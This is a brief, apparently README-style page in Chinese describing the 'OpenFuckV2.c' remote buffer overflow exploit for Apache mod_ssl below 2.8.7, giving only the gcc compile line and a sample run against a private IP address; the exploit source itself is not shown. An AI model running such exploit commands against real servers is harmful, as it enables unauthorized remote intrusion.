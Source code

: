 # Apache mod_ssl <2.8.7 OpenSSL-'OpenFuckV2.c'远程缓冲区溢出漏洞程序

# 用法
gcc exp.c -o exp -lcrypto  
./exp 0x00 192.168.0.1 -c 40
